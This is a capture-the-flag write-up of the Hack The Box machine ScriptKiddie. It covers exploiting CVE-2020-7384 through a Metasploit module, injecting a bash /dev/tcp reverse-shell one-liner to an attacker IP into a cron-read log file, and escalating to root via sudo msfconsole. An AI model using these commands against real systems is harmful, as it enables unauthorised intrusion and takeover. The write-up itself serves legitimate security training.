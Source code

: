 ```yaml
---
title:     "Hack The Box - ScriptKiddie"
tags: [linux,easy]
categories: HackTheBox
---
```

[![box card](/img/scriptkiddie/info_card.png)](/img/scriptkiddie/info_card.png)

ScriptKiddie is an easy rated machine on HackTheBox by [0xdf](https://www.hackthebox.eu/home/users/profile/4935). For the user part we will exploit a web application that let's us generate mfsvenom files with templates abusing [CVE-2020-7384](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/). This gives us a shell as the user `kid`, from whom we pivot to the user `pwn` abusing a running cronjob with another command injection. As `pwn` we can run `msfconsole` as root,  which let's us drop into a rootshell executing bash.

# User
## Nmap
As usual we start our enumeration on the target with an allports nmap scan to capture the whole attack surface, followed by a script and version detection scan to obtain more detailed information on the open ports.

`Nmap allports`

```
$ sudo nmap -p- -T4 10.129.153.127
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-29 06:12 UTC
Nmap scan report for 10.129.153.127
Host is up (0.073s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

Nmap done: 1 IP address (1 host up) scanned in 46.68 seconds
```

`Nmap script and version scan`

```
$ sudo nmap -p22,5000 -sC -sV 10.129.153.127
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-29 06:16 UTC
Nmap scan report for 10.129.153.127
Host is up (0.032s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.21 seconds
```

## Msfvenom template
Going over to the werbserver on port 5000 we can see that it is offering 3 different applications.

[![website](/img/scriptkiddie/website.png)](/img/scriptkiddie/website.png)

We can scan a host with nmap entering an ip, generate `msfvenom` payloads with templates and also perform a `searchsploit` search. Scanning localhost with the nmap service we don't get any additional information. The interesting thing here is the payload generation with a template because it is vulnerable to [CVE-2020-7384](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/).
This works by exploiting a command injection vulnerability in msfvenom when generating an `apk` payload with a template file.
In a first step we will generate the malicious apk file using the msf module `unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection`.

```
       =[ metasploit v6.0.44-dev                          ]
+ -- --=[ 2132 exploits - 1139 auxiliary - 363 post       ]
+ -- --=[ 596 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 8 evasion                                       ]

Metasploit tip: After running db_nmap, be sure to 
check out the result of hosts and services

[*] Starting persistent handler(s)...
msf6 > use unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set lhost 10.10.14.7
lhost => 10.10.14.7
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set lport 7575
lport => 7575
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > run

[+] msf.apk stored at /home/jack/.msf4/local/msf.apk
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > 
```

Next we set up our `ncat` listener on the selected port.

```
$nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

With preparations set we can now generate the `msfvenom` payload with our malicious `apk` template.

[![payload_web](/img/scriptkiddie/payload_web.png)](/img/scriptkiddie/payload_web.png)

After a short moment we get a hit back on our `ncat` listener and upgrade the shell. Now we can grab the user flag in `/home/kid`.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.153.127.
Ncat: Connection from 10.129.153.127:47952.
python3 -c 'import pty;pty.spawn("/bin/bash")'
kid@scriptkiddie:~/html$ export TERM=xterm
export TERM=xterm
kid@scriptkiddie:~/html$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

kid@scriptkiddie:~/html$ stty rows 55 cols 236
kid@scriptkiddie:~/html$
```

```
kid@scriptkiddie:~$ wc -c user.txt 
33 user.txt
```

# Root

## Command injection #2
Looking around in the other users home directory we find the script `scanlosers.sh`. This script reads the logfile in `home/kid/logs/hackers` takes the third argument in each row, seperated by a space and runs a nmap script against it. This is also vulnerable to a simple command injection, which we can use to gain a shell as the user pwn.

```
kid@scriptkiddie:/home/pwn$ cat scanlosers.sh 
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

First we set up our listener again.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

Then we place our command injection in the logfile and recieve an instant shell on the target.

```
kid@scriptkiddie:/home/pwn$ echo 'x x ;bash -c "bash -i >& /dev/tcp/10.10.14.7/7575 0>&1;"' > /home/kid/logs/hackers
```

We upgrade our shell again and continue on our way to root.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.153.127.
Ncat: Connection from 10.129.153.127:48198.
bash: cannot set terminal process group (803): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
pwn@scriptkiddie:~$ export TERM=xterm
export TERM=xterm
pwn@scriptkiddie:~$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

pwn@scriptkiddie:~$ stty rows 55 cols 236
pwn@scriptkiddie:~$
```

## Sudo on Metasploit

Checking the sudo permission we see that pwn can run msfconsole as root. Since we can issue os commands inside msf, this gives us an easy way to escalate to root.

```
pwn@scriptkiddie:~$ sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

We start up msfconsole with sudo and execute `/bin/bash`.

```
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole
```

This drops us into a rootshell and we can grab the rootflag.

```
msf6 > /bin/bash
[*] exec: /bin/bash

root@scriptkiddie:/home/pwn# id
uid=0(root) gid=0(root) groups=0(root)
root@scriptkiddie:/home/pwn# wc -c /root/root.txt
33 /root/root.txt
root@scriptkiddie:/home/pwn# 
```
